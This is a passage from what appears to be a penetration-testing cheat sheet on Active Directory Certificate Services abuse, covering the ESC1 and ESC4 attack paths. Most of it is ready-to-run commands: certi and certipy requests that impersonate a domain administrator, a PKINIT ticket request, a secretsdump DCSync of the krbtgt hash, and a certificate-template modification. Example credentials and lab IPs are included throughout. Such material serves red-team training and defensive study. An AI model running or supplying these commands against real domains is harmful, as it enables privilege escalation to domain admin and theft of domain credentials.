 2. If requirements are met, then request the certificate using certi by specifying alternate name that include a high privileged user (ie Domain Admins)
```bash
# Certi
python3 certi.py req range.net/peter:'Welcome1234'@CA01.range.net range-CA01-CA -k -n --template 'VulnUser' --alt-name 'rangeadm'

# Certipy
certipy req -u peter@range.net -p Password123 -target ca01.range.net -ca 'range-CA01-CA' -template 'VulnUser' -upn 'Administrator@range.net'
```

3. A pfx certificate should now be retrieved. Run the following command to request tgt by using the ceritifcate by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py)
```bash
# impacket
python3 gettgtpkinit.py range.net/rangeadm -cert-pfx /opt/certi/rangeadm@range.net.pfx -pfx-pass 'admin' -dc-ip 10.8.0.2 /tmp/rangeadm.ccache

# certipy
certipy auth -pfx administrator.pfx -dc-ip 192.168.86.183
```

4. Now a ccache file should now be retrieved. Export the ccache file into `KRB5CCNAME` environment variable and [DCSync](#dcsync)
```bash
secretsdump.py range.net/rangeadm@10.8.0.2 -k -no-pass -just-dc -just-dc-user 'range\krbtgt'
```
_Note that you could also recover ntlm has with getnthash.py script_

### ESC4
This attack is possible when a low-privileged user has _Write Property_ or any other rights to modify template configuration to allow [ESC1](#esc1) attack to work. [modifyCertTemplate.py](https://github.com/fortalice/modifyCertTemplate) will be used in the following steps

1. Verify the vulnerable template with [certi]() 
```bash
python3 certi.py list range.net/peter:'Welcome1234' --dc-ip 10.8.0.2 --enabled

# vulnerable template
[[..snip..]]
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-3556610642-5733621-2059236447-513 range\Domain Users
[[..snip..]]
```

2. Once vulnerable template has been verified. Modify the necessary requirements to proceed with [ESC1](#esc1) attack path
```bash
# msPKI-Certificate-Name-Flag = (0x1) ENROLLEE_SUPPLIES_SUBJECT
python3 modifyCertTemplate.py range.net/peter:'Welcome1234' -template ESC4 -value 1 -property msPKI-Certificate-Name-Flag -dc-ip 10.8.0.2
```
